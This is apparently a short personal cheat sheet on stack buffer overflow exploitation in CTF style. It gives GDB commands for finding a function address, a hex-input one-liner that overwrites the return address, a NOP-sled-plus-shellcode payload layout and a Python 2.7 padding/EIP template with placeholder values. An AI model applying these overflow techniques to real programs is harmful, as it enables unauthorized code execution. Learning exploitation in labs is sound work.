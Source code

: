 # GDB

- set disassembly-flavor intel -> 
- disassemble main - get all instructions from a function
- x win / p win -> get address of the "win" function
- - break *<address> - set breakpoint
- r < <(echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x67\x05\x40") -> run program with input interpreted as hex. !ATTENTION! little endian vs big endian
- info registers -> check registers ( here while breakpoint was hit)

## Payload format
- (NOP * no_of_nops + shellcode + random_data * no_of_random_data + shellcode_memory_address)

## Constructing payload - python2.7
```
import struct

padding = "A" * 4 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4 + "H" * 4 + "I" * 4 + "J" * 4 + "K" * 4 + "L" * 4 + "M" * 4 + "N" * 4 + "O" * 4 + "P" * 4 + "Q" * 4 + "R" * 4 + "S" * 4 + "T" * 4 + "U" * 4 + "V" * 4 + "W" * 4 + "X" * 4 + "Y" * 4 + "Z" * 4
#proper padding value calculated from gdb crash point - EIP address
#padding =

ebp = "AAAA"
shellcode_address = 0x00 #raw shellcode address (or address to be called) to be added; convert to BIG ENDIAN
eip = struct.pack("I", shellcode_address) # convert address to binary string

print padding + ebp + eip
```

